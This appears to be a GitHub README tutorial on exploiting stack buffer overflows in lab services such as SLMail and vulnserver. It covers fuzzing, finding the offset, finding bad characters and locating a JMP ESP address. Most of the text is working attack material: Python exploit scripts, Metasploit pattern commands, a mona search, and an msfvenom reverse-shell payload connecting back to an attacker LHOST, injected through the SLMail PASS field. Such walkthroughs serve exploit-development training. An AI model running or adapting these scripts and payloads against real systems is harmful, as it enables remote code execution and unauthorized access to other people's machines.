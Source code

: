 # Buffer-Overflow-In-5-Simple-Steps

Steps:
1) Fuzzing
2) Finding Offset
3) Finding Bad characters
4) Finding RET Address
5) Generating Shellcode and getting shell



Now in every application you are testing for buffer overflow there may be a parameter or maybe not so you can manually send your every payload using nc or use a python script to fast up everything


Basic python script to exploit basic buffer overflow in applications like slmail, warftp, vulnserver etc.


#!/usr/bin/python
import time, struct, sys
import socket as so
buff = "A" * 5000
ipadd = str("192.168.2.41")
port = int("110")
s = so.socket(so.AF_INET, so.SOCK_STREAM)
try: 
 s.connect((ipadd,port))
 s.recv(1024)
 s.send('TRUN vanshal' +'\r\n')
 print "\n[+] Completed."
except:
 print("Failed")
sys.exit()

NOTE: If you copy this script make sure to correct " medium messup single quote sometimes


1) Fuzzing


Try to send 5000 A's in python script and increase 1000 everytime if service is not stopped.


2) Finding Offset


Generate random characters using
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb


Command: 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000


here 5000 is where the service is crashing  


Now send the generated pattern from python script


Now in immunity debugger copy the EIP address and send that address in 


/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb


/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q EIP Address


3) Finding Bad Characters


Send all hex values from python script 
hex-values -  https://raw.githubusercontent.com/Vanshal/Buffer-Overflow-In-5-Simple-Steps/master/all-hex-values




Now in immunity debugger right-click on ESP and select Follow in Dump to show the input buffer hex characters in memory
Now look at the badchars list and the immunity and compare where it changes something and remove that from python script and re-run the script to confirm that no badchar is left


4) Finding RET Address


Default: 
JMP ESP = FFE4
After installing mona in immunity 
Commnand:
!mona modules
Find the dll of your service and if there is no ddl search for exe
Probably the one with False in all memory protection is the one you need


Now copy the dll file name
the run
!mona find -s "\xff\xe4" -m slmfc.dll (slmfc.dll is dll found with !mona modules)


Copy the address and convert it to little endian format
eg
0x5f4a358f
\x8f\x35\x4a\x5f


5) Generating Shellcode and getting shell


msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.123 LPORT=443 -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -f c


here using -b switch specify badchars found in step 3


Final Script
#!/usr/bin/python
import time, struct, sys
import socket as so
buf = GENERATED SHELLCODE
buff = "A" * 2606 + "\x8f\x35\x4a\x5f" + '\x90' * 16 + buf
s = so.socket(so.AF_INET, so.SOCK_STREAM)
s.connect(('192.168.0.2',110))
s.recv(1024)
s.send('USER vanshal' +'\r\n')
s.recv(1024)
s.send('PASS ' + buff + '\r\n')
print "\n[+] Completed."
sys.exit()


NOTE: If you think other step is correct and still its not working try to change msfvenom payload type to bind shell OR try to change the value of nops to 30,20,24 etc…
